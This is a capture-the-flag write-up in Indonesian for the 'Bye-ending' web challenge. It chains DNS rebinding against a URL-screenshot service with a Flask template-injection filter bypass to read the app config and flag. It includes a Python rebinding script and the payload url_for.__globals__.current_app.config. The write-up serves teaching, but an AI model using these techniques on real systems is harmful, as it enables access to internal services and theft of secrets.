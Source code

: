 ﻿# Bye-ending

## Ground
DIberikan sebuah web dengan sebuah text box untuk meng-input sebuah url. Analisa heuristik pada html source code web tersebut dapat disimpulkan bahwa saat sebuah url diinput, maka web tersebut akan melakukan request ke url tersebut dan melakukan screen capture. 

Dari source code yang diberikan (routes.py) di soal, secara ringkas web tersebut bekerja sebagai berikut:

 - Menerima `url` dan nilai `timeout` dari input klien
 - Memanggil fungsi `valid_target(url)`, memastikan klien tidak mengirimkan url yang mengarah pada localhost
 - Menghentikan jalannya program sementara dengan durasi sesuai nilai `timeout`
 - Melakukan request ke `url` yang diterima menggunakan Firefox
 - Menghentikan jalannya program (lagi) selama 10 detik (nilai konstan)
 - Mengambil screenshot dari `url` yang dibuka dan mengirimkannya kembali ke klien

Pada fungsi `valid_target`, bila input `url` yang diterima berupa domain name, maka program akan mencoba mendapatkan IP dibalik domain tersebut untuk memastikan bahwa domain tersebut tidak mengarah pada IP `127.0.0.1` (localhost); hal tersebut terlihat pada baris `ip = socket.gethostbyname(url)`. 

### DNS Rebinding

Jika diperhatikan, antara pemanggilan fungsi `valid_target` dengan saat Firefox melakukan request ke url yang dituju terdapat delay (`time.sleep(timeout)`), dan delay tersebut dapat ditentukan sendiri oleh klien melalui nilai `timeout` yang dikirimkan, selama masih dibawah 150 detik.

Berikut skema alurnya:
```
valid_target(url) -> sleep(timeout) -> driver.get(url)
```

Penyusunan kode seperti diatas berpotensi menimbulkan serangan DNS rebinding. 
Contohnya, saat fungsi `valid_target` menterjemahkan domain `petircysec.com` menjadi IP, IP yang didapat adalah `111.222.333.444`. Kemudian program akan terhenti sementara selama 150 detik (sebagai contoh). Pada saat itu, seseorang mengubah IP dari `petircysec.com` menjadi `127.0.0.1`. Karena TTL (time-to-live) terendah dari sebuah domain adalah 60 detik, maka setelah 60 detik, setiap perangkat yang akan mengunjungi domain `petircysec.com` harus mengulangi proses menterjemahkan domain ke IP (melalui DNS query). Artinya, setelah 150 detik program terhenti dan Firefox melakukan request ke `url` yang diberikan (dalam konteks ini, `petircysec.com`), Firefox akan mengulangi proses menterjemahkan domain ke IP, dan akan diarahkan ke IP `127.0.0.1`, bukan lagi ke `111.222.333.444`.

### Server-side Template Injection

Dari source code kedua yang diberikan (admin_routes.py), diketahui bahwa:

 - Terdapat web lain yang berjalan di localhost, berbasis Python Flask.
 - Web tersebut berpotesi memiliki kelamahan SSTI lewat fungsi `render_template_string`yang dipanggil, namun terdapat filter yang membuat kata-kata `self` dan `config` tidak dapat berada di dalam payload
 - Flag terdapat pada config aplikasi Flask yang berjalan

## Solve


### The Bye Web Catcher Webapp
Eksploitasi web ini digunakan agar penyerang dapat mengakses web selanjutnya yang hanya berjalan di localhost. 
Skema serangannya adalah:
```
buat domain abc.xyz mengarah pada IP 111.222.333.444
|
v
pada web, lakukan input:
url = abc.xyz
timeout = 150
|
v
segera ubah domain abc.xyz menjadi mengarah pada IP 127.0.0.1
```
Berikut script yang digunakan:
```Python
import requests
import subprocess
import time
from multiprocessing import Process, Pool

CMD = "noipy -u someusername -p somepassword -n zomzo.gotdns.ch --provider noip 127.0.0.1"

TARGET = "bye-ending.problem.cscctf.com"

def  doRequest():
	return requests.post(TARGET, data={
		"url": "zomzo.gotdns.ch",
		"timeout": 150
	})
	
with Pool(processes=2) as pool:
	req = pool.apply_async(doRequest, ())
	res = None
	time.sleep(10) # wait until valid_target() check has been completed
	res = subprocess.call(CMD) # change the IP into 127.0.0.1
	try:
		res = req.get(timeout=150)
	except  Exception  as e:
		pass
```


### The Localhost Webapp

Setelah mendapat akses ke web localhost, kelemahan SSTI dapat diexploitasi pada endpoint `/action/<payload>`. Berdasarkan source code, bila nilai `<payload>` adalah `config`ataupun `self`, maka nilai tersebut akan difilter dan diganti dengan kalimat `Hohoho. Happy Holiday, hekel.`

Untuk mengatasi halangan tersebut dapat menggunakan fungsi `url_for()` yang terdapat pada Flask. Atribut global yang terdapat pada fungsi tersebut dapat diakses menggunakan `__globals__`, dimana didalamnya terdapat sebuah variabel dengan nama `current_app`. Akses variabel tersebut sama artinya dengan kita mengakses aplikasi Flask yang berjalan saat itu. Selanjutnya, tinggal akses variable `config` dan mendapatkan flag yang terdapat didalamnya.

Berikut payload yang digunakan secara keseluruhan:
`/action/{{url_for.__globals__.current_app.config}}`

Payload tersebut dikirimkan ke web yang berjalan di localhost menggunakan DNS Rebinding yang telah dijabarkan sebelumnya.

## Flag
`CCC{a_journ3y_into_dnssssti}`
